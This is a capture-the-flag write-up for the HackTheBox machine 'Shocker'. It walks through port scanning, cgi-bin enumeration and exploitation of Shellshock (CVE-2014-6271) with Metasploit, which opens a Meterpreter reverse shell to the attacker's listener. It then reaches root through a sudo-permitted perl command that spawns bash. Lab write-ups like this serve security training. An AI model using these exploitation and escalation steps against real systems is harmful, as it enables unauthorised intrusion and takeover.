 # Shocker | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.48]─[htb-jib1337@htb-bzghcnhtz1]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.1.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-22 13:30 UTC
Nmap scan report for 10.129.1.175
Host is up (0.22s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/22%OT=80%CT=1%CU=38512%PV=Y%DS=2%DC=T%G=Y%TM=5FBA68
OS:89%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M54DST11NW6%O2=M54DST11NW6%O3=M54DNNT11NW6%O4=M54DST11NW6%O5=M54DST
OS:11NW6%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)EC
OS:N(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   223.41 ms 10.10.14.1
2   223.58 ms 10.129.1.175

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.69 seconds
```
The machine is running Apache 2.4.18 and SSH.

### 2. Enumeration
When browsing to the machine over a web browser, a single page is returned with an image of a bug hitting itself with a hammer and some text - "Don't bug me!". When scanning for files and directories, I find a cgi-bin and icons, both cannot be read. I don't find any other files. However, knowing there may be CGI scripts is valuable information. The name of the box is a bit of a hint here, I can try to exploit the Apache mod_cgi (shellshock) to get command execution. Of course it relies on a vulnerable version of bash being installed which I have no idea if this is the case, so without the machine name this would be a wild shot in the dark.
  
Still, I need to enumerate the cgi-bin directory first to find a script to target.
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.1.175/cgi-bin/FUZZ -e .cgi,.sh

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.1.175/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .cgi .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
A script called user.sh exists in the cgi-bin directory. Finally I can use metasploit to check the script and see if the exploit will work using it.
```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > options

Module options (auxiliary/scanner/http/apache_mod_cgi_bash_env):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   CMD        /usr/bin/id       yes       Command to run (absolute paths required)
   CVE        CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER     User-Agent        yes       HTTP header to use
   METHOD     GET               yes       HTTP method to use
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.1.175      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /cgi-bin/user.sh  yes       Path to CGI script
   THREADS    1                 yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run

[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
It does.

### 3. Get a shell
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.1.175      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin              yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.48      yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.48:9999 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 10.129.1.175
[*] Meterpreter session 1 opened (10.10.14.48:9999 -> 10.129.1.175:45180) at 2020-11-22 10:14:56 -0500

meterpreter > getuid
Server username: shelly @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 10.129.1.175
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

### 4. Enumerate from foothold
First thing to try is checking sudo.  
```bash
shelly@Shocker:~$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
I can run perl as root, with no password required.

### 5. Escalate to root
I can escalate by making use of the system() function and calling /bin/bash.
```bash
shelly@Shocker:~$ sudo perl -e "system('/bin/bash')"
sudo perl -e "system('/bin/bash')"
root@Shocker:~# whoami
whoami
root
```

### Notes

I made my own exploit tool for shellshock - see shocker.py.
